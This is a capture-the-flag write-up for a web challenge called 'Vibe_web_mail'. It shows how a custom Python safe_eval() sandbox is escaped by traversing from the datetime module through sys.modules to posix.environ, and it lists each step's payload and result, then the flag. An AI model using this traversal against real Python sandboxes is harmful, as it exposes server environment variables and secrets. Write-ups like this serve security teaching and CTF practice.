





**Challenge:** Vibe_web_mail  
**Category:** Web — Server-Side Template Injection (SSTI) / Python Sandbox Escape  
**Src:** [Vibe Web Mail](../Vibe_web_mail/)

## Overview

This challenge presents a custom `safe_eval()` function attempting to sandbox user expressions. The vulnerability lies in insufficient sandboxing that allows traversal from permitted builtin modules to system-level objects, ultimately leading to environment variable disclosure.

## Vulnerability Analysis

The application implements a custom `safe_eval()` function with the following security measures:

1. **Opcode Whitelisting**: Compiles expressions and validates opcodes against `_SAFE_OPCODES`
2. **Attribute Filtering**: Blocks names containing `__` and dangerous attributes
3. **Restricted Builtins**: Sets `globals()['__builtins__'] = dict(_BUILTINS)` with limited modules including `datetime`

However, the sandbox fails because:

- Permitted builtin modules retain references to the Python interpreter internals
- Object traversal through `sys.modules` is possible
- No restriction on accessing loaded modules via registry

## Exploitation

### Step 1: Reconnaissance

First, confirm expression evaluation works:

**Payload:** `7*7`  
**Result:** `49`

### Step 2: Builtin Module Access

Test access to permitted `datetime` module:

**Payload:** `str(datetime)`  
**Result:** `<module 'datetime' from '/usr/lib/python3.x/datetime.py'>`

**Payload:** `str(datetime.datetime.now())`  
**Result:** Current timestamp confirms method execution

### Step 3: System Module Discovery

Traverse from `datetime` to `sys.modules` to enumerate loaded modules:

**Payload:** `list(datetime.sys.modules.keys())`  
**Result:** Comprehensive list of all loaded Python modules, revealing multiple potential escape vectors including `posix`, `os`, `_io`, and `subprocess`

**Key modules identified:**

- `posix` - Unix system interface (chosen for exploit)
- `os` - High-level OS interface
- `_io` - Low-level I/O operations
- `subprocess` - Process execution capabilities

The enumeration reveals that while multiple system modules are available as potential gadgets, `posix` provides the most direct path to environment variable access through its `environ` attribute.

### Step 4: POSIX Module Access

Verify access to `posix` module (Unix system interface):

**Payload:** `str(datetime.sys.modules.get("posix"))`  
**Result:** `<module 'posix' (built-in)>`

### Step 5: Environment Variable Access

Access OS environment variables through `posix.environ`:

**Payload:** `str(datetime.sys.modules.get("posix").environ)`  
**Result:** Dictionary of environment variables

## Flag

`ASIS{PH1ND_50m3_V183_1n_3NV_de1d8572fde00fb04f06d1ce}`

---

_Author: Gia Than_
